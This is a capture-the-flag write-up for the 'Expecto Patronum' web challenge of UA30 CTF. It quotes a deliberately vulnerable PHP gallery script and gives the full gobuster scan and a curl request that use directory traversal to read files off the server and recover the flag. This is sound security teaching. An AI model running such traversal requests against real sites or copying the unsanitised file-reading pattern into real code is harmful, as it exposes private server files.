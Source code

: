 # web/Expecto Patronum

### Description
> Джош вже довгий час вважав свого пса Патрона найкращим другом та надійним захисником у будь-якій ситуації. Патрон розумна собака, віддана та надзвичайно чуйна. Джош завжди говорив, що його пес - це його справжній скарб, тому він вирішив створити галерею з фотографій Патрона.

On main page there is Patron and only him

![expecto_patronum1](/2023/UA30/web/images/expecto_patronum1.png)

But fortunately or not we are looking for flag, so lets use gobuster

`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -u https://expecto-patronum.ua30ctf.org/`

It found **/gallery** and **/src** with zip archive which contains website's source code 

But archive locked with password, after some guessing I found correct one - `patron`

In **index.php** there is interesting block of code

```php
if ( empty($query)) {
    if(isset($_GET['gallery'])){
        $scandir = $_GET['gallery']."/";
        $files = scandir($scandir);
        $image_list = array_diff($files, array('.', '..'));
    }
    foreach ($image_list as $key => $value) {
        if(isset($_POST['list-icon'])){ ?>  
       
        <div class="image small">
                <img src="gallery/<?php echo $image_list[$key] ; ?>" />
                <?php echo $image_list[$key] ; ?>
            </div>
<?php   }elseif($_POST['full-size']) {   
             $url=$scandir.$image_list[$key];
             if((strpos($url, "png") !== false)or((strpos($url, "jpg") !== false))){
             $data = file_get_contents($url);   
             $base64 = 'data:image/png;base64,' . base64_encode($data);
             ?>  
                <img src="<?php 
                    echo $base64; 
                ?>"/> 
                <?php }}else{ ?>
             
            <div class="image display-inline-block">
                <img src="gallery/<?php 
                echo $image_list[$key] ; 
                ?>" />
            </div>
<?php   
        }    
    }
    
}
```

On POST request with **full-size** parameter on url which contains **png** or **jpg** (not .png or .jpg) it sends base64 encoded contents of file on that url

And it also gives us directory traversal

After some searching on the system I found flag in **/home** and **libpng16-16** in /usr/share/home so I crafted this request

`curl -X POST 'https://expecto-patronum.ua30ctf.org/?gallery=/usr/share/doc/libpng16-16/../../../../../../home' -d 'full-size=True'`

Which gave `<img src="data:image/png;base64,Y3Rme0phY2tfUnVzc2VsbF9UZXJyaWVyfQo="/>`

*ctf{Jack_Russell_Terrier}*
